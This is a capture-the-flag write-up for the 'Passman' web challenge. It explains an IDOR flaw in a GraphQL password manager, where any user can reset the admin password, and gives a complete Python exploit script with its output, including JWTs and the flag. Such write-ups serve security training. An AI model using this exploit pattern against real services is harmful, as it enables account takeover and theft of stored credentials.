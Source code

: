 # [Web - easy] Passman

This challenge starts with a JS webapp connecting to a MySQL database. The webapp serves as a GraphQL interface between a client and the MySQL database to: `RegisterUser`, `LoginUser`, `UpdatePassword`, `AddPhrase` and `getPhraseList`. This database is supposed to serve as a password manager, storing passwords.

The main vulnerability lies in the fact that the `UpdatePassword` GraphQL mutation does not check for which user the password is updated: it is possible to update the admin password with any user. That's called an IDOR (Insecure Direct Object Reference).

As such, the flow to get the flag is (using only the GraphQL API):

- register a new user
- login with this user, getting the JWT in exchange
- using the authenticated session with the JWT cookie, update the admin password
- login as admin and its now known password, getting the JWT in exchange
- with the admin session, list the admin passwords, get the flag

The full script is the following:

```python
import requests
import json

domain = '165.232.98.11'
endpoint = 'http://{}:31043/graphql'.format(domain)
username = 'bbb'
email = 'aaa@aa.aa'
password = 'aaa'

register = {
    'query': 'mutation($email: String!, $username: String!, $password: String!) { RegisterUser(email: $email, username: $username, password: $password) { message } }',
    'variables': {
        'username': username,
        'email': email,
        'password': password
    }
}

login = {
    'query': 'mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }',
    'variables': {
        'username': username,
        'password': password
    }
}

get_passwords = {
    'query': '{ getPhraseList { id, owner, type, address, username, password, note } }'
}

update_pass = {
    'query': 'mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }',
    'variables': {
        'username': 'admin',
        'password': password
    }
}

login_admin = {
    'query': 'mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }',
    'variables': {
        'username': 'admin',
        'password': password
    }
}


s = requests.Session()
# Register
response = s.post(endpoint, json = register)
print(response.text)
# Login
response = s.post(endpoint, json = login)
token = json.loads(response.text)
print(token)
s.cookies.set("session", token['data']['LoginUser']['token'], domain=domain)

# Update admin password
response = s.post(endpoint, json = update_pass)
print(response.text)

# Login admin
response = s.post(endpoint, json = login_admin)
token = json.loads(response.text)
print(token)
s.cookies.set("session", token['data']['LoginUser']['token'], domain=domain)
# Get passwords
response = s.post(endpoint, json = get_passwords)
print(response.text)
```

The output is now:

```bash
$ python lol.py
{"data":{"RegisterUser":{"message":"User registered successfully!"}}}
{'data': {'LoginUser': {'message': 'User logged in successfully!', 'token': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImJiYiIsImlzX2FkbWluIjowLCJpYXQiOjE2Nzk3Mjc1MzB9.fzUOGc0DQeVLMYr04dGveszWmzVqJBs9g-Jju57ds6k'}}}
{"data":{"UpdatePassword":{"message":"Password updated successfully!"}}}
{'data': {'LoginUser': {'message': 'User logged in successfully!', 'token': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY3OTcyNzUzMX0.red-2ntZCxVGDTv6MlrvQCwSFSJGya3VDE0SismI1hQ'}}}
{"data":{"getPhraseList":[{"id":"1","owner":"admin","type":"Web","address":"igms.htb","username":"admin","password":"HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}","note":"password"}]}}
```

